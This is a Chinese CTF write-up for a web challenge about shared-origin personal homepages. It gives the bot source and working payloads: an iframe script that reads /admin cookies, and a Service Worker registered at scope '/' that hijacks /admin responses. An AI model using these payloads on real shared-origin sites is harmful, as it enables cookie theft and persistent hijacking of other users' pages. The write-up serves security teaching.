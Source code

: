 # [Web] 第三新XSS

- 命题人：新燕园校区的 xmcp
- 巡猎：200 分
- 记忆：300 分

## 题目描述

<p>第三新兆京大学的第三新学院坐落在美丽的第三新燕园校区。在这里工作的第三新学生在欣赏第三新燕园校区的第三新风光之余，还组建起了第三新实验室，努力发展解决卡脖子难题的第三新技术。</p>
<p>就像其他世界一流大学一样，第三新学院也有自己的第三新官网，每个第三新学生可以向第三新教务提出申请，在上面放置自己的第三新个人主页。在第三新教务座谈会上，有人提出了质疑：</p>
<blockquote>
<p>“允许任何人在官网上设置个人主页，请问这是否存在安全漏洞？比如，能否通过 XSS 漏洞篡改他人的主页内容。”</p>
<p>“暂时不能给你明确的答复。不过有一点可以保证，这套系统从根本上杜绝了 XSS 漏洞，因为<strong>所有人共享同一个网站</strong>，Cross-Site 不了一点。”</p>
<p>“好的，这套系统没有 XSS 漏洞。那么是否有第三新 XSS 漏洞呢？”</p>
<p>“这个问题需要你自己去衡量。”</p>
</blockquote>
<p>此时人们尚未意识到，命运的第三新齿轮即将开始转动……</p>
<div class="well">
<p><strong>萌新教学：</strong></p>
<p>本题提供了一个模拟受害者行为的程序，称为 XSS Bot。它会自动操作浏览器将 Flag 放置在目标网站上，然后访问你指定的网址。</p>
<p>请设法找到并利用目标网站上的漏洞，通过与 XSS Bot 交互获得受害者浏览器中的 Flag。</p>
</div>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>给 Cookie 设置 Path 并不能带来安全性。<a target="_blank" rel="noopener noreferrer" href="https://developer.mozilla.org/en-US/docs/web/api/document/cookie#security">MDN 文档</a> 专门有一节来指出其中的问题。</li>
<li>你需要 <a target="_blank" rel="noopener noreferrer" href="https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API/Using_Service_Workers">注册一个 Service Worker</a>，而且要注册到 <code>"/"</code> 这个 scope 上。</li>
</ul>
</div>

**【网页链接：访问题目网页】**

**[【附件：下载题目网页和 XSS Bot 源码（prob01-src.zip）】](attachment/prob01-src.zip)**

**【终端交互：连接到 XSS Bot】**

## 预期解法

打开题目，发现网页提供了注册个人主页的功能，让我们得以控制题目域名下的任意目录，`/admin` 除外，因为这个目录已经被预先注册过了。

然后下载附件，观察 XSS Bot 做了什么。先看 Flag 1：

```python
if protocol=='http': # flag 1

    with webdriver.Chrome(options=options) as driver:
        print('\nSetting up flag 1')
        driver.get(admin_url)
        time.sleep(.5)
        driver.execute_script(f'document.cookie = "flag={getflag(1)}; path=/admin"')
        time.sleep(.5)

        print('\nVisiting your webpage')
        driver.get(hacker_url)
        time.sleep(1)

        title = driver.title
        print('\nThe page title is:', title)
```

可以看到它要求黑客提供的 URL 是 http（而不是 https）协议。然后它访问了 `/admin/`，把 Flag 1 作为 Cookie 埋在了页面里，接下来访问了黑客提供的 URL，最后输出网页的标题。

那么黑客的页面能不能直接输出 `/admin/` 的 Cookie 呢？不行，因为这个 Cookie 设置了 `path=/admin`。但这个设置其实没什么用，因为浏览器一般以 “同源策略” 限制网页的行为，在同一个域名（和协议、端口号）下的不同页面都默认是互相可信的，因此在 JavaScript 里面可以直接操纵其他页面的 DOM：

```html
<iframe src="/admin/"></iframe>
<script>
document.title = 'running';
setTimeout(()=>{
    document.title = 'got: ' + document.querySelector('iframe').contentDocument.cookie;
}, 500);
</script>
```

把上面这段 HTML 注册为自己的个人主页，然后让 XSS Bot 访问就行了。另外除了 iframe（假设 `/admin` 设置了 `X-Frame-Options` 头），也有其他的姿势可以利用，比如 `window.open` 一个 `"/admin/“`，这样也可以拿到它的 `window`，从而依然可以直接读取 Cookie。

再看看 Flag 2：

```python
else: # https, flag 2

    with webdriver.Chrome(options=options) as driver:
        print('\nVisiting your webpage')
        driver.get(hacker_url)
        time.sleep(1)

    with webdriver.Chrome(options=options) as driver:
        print('\nSetting up flag 2')
        driver.get(admin_url)
        time.sleep(.5)
        driver.execute_script(f'document.cookie = "flag={getflag(2)}; path=/admin"')
        time.sleep(1)

        title = driver.title
        print('\nThe page title is:', title)
```

这时 XSS Bot 的行为就比较诡异了，它访问了黑客的网页，然后关掉浏览器重新打开了 `/admin/`，在页面上设置了 Cookie，最后输出网页的标题。黑客的网页总不能在关掉浏览器重开之后还继续运行吧？

诶，还真可以。那就是几年前比较火的 [Service Worker](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API/Using_Service_Workers)，这个东西是 Progressive Web App 全家桶的一部分，意义在于让网页可以提供与原生 App 类似的体验，在离线时仍然可以工作。比如说 Twitter（现已更名 X）这种网站，我们把梯子关了再访问，发现网页已经被 Service Worker 缓存下来了，因此依然可以正常打开：

![image-20231021153213874](assets/image-20231021153213874.png)

但这并没什么卵用，因为能打开的只有这个页面本身，里面的内容都是统统无法加载的状态。我们可以在开发者工具里面确认 Service Worker 的存在：

![image-20231021154535483](assets/image-20231021154535483.png)

这样的 Service Worker 就像浏览器插件一样，会在后台自动运行。网页可以通过以下代码主动安装 Service Worker：

```javascript
navigator.serviceWorker.register('/path_to/sw.js');
```

然后 Service Worker 就会在此后当用户再次访问网页的时候启动，允许我们干一些花活，比如直接修改 HTTP 请求的响应：

```javascript
self.addEventListener('fetch', (event) => {
    console.log('fetch', event.request.url);
    if(event.request.url.indexOf('/admin/')!==-1) {
        event.respondWith(new Response('hacked!', {
            headers: {'Content-Type': 'text/html'},
        }));
    }
});
```

这个功能一看就很危险，相当于页面上只要曾经存在任何一处 XSS，就能安装一个 Service Worker 让用户永远被 XSS。因此作为安全措施，浏览器默认限制 Service Worker 的工作范围仅限于它所在的这个目录。比如假设 Service Worker 的脚本是 `/path_to/sw.js`，那么它只能看到并修改 `/path_to/` 底下的所有 HTTP 请求，因此 `/admin/` 还是安全的。

但这个措施对一些网站造成了不便，比如假设某公司网站的架构要求所有 JS 代码都放在 `/assets/js/` 目录底下，那这样的 Service Worker 该怎么用呢？因此浏览器还是留了一个口子，允许设置响应头 `Service-Worker-Allowed: /` 来手动提升它的默认工作范围（到 `/`）。

因此，要拿到 Flag 2，我们可以考虑上传一个工作范围为 `/` 的 Service Worker 来劫持 `/admin/`。首先我们准备一个 Service Worker 脚本，把它上传到 `/flag2_b/`，注意设置 `Service-Worker-Allowed` 头：

![image-20231021154202515](assets/image-20231021154202515.png)

然后再准备一个注册这个 Service Worker 的页面，上传到 `/flag2_a/`：

![image-20231021154358147](assets/image-20231021154358147.png)

这样一旦 XSS Bot 访问 `/flag2_a/`，就会注册上 `/flag2_b/sw.js` 这个 Service Worker，于是此后在这个域名下的所有请求都会被我们看光光。

此题的脚本见 [sol/solve.py](sol/solve.py)。注意 Flag 2 的解法无法用来做 Flag 1，因为 Service Worker 只在 HTTPS 下可用，而 Flag 1 是 HTTP 的。

## 题目背景

此题的背景是国外很多大学都喜欢给每个老师分配一个路径用来放置个人主页，比如 https://www.lfd.uci.edu/~gohlke/pythonlibs/，`/~gohlke` 整个路径都在他的控制之下。这样做显然是与浏览器的同源策略背道而驰的，有很大的安全隐患。Flag 1 和 Flag 2 展示了我能想到的两种安全隐患，都会造成一些不太妙的后果。

正如题面所说，严格来说此题并不算 XSS 题，因为毫无 Cross-Site 的成分在里面。不过我也不知道有什么别的名字可以称呼这种漏洞，暂且还是用 XSS 来称呼吧。

另外此题一开始还有一个思路，就是如果选手能控制 `/.well-known` 路径，就能利用 LetsEncrypt 的 HTTP-01 Challenge 骗一个整站的 SSL 证书。这是一个比较新颖的攻击思路，但最终考虑再三，还是没有允许这样做，因为：

- LetsEncrypt 对同一个域名下的证书申请有频率限制，在正式环境下一周只能申请 50 个，在 [Staging 环境](https://letsencrypt.org/docs/staging-environment/)下一周只能申请 30000 个（但是每小时只能有 60 次验证失败）。因此选手可以搅屎，写脚本把频率用完，让所有人都做不了题。
- 证书申请通过之后，可以在 [crt.sh](https://crt.sh/) 这样的网站上查到对应的域名。因此选手还是可以搅屎，知道别人使用的域名之后写脚本把所有能想到的路径都注册一遍，影响别人做题。
- 说到底使用 `.well-known` 骗证书并没有什么意义。因为如果能控制任何路径了，直接使用现在 Flag 2 的手法装一个 Service Worker 是更简单的攻击方法，没必要再费尽心思搞中间人攻击。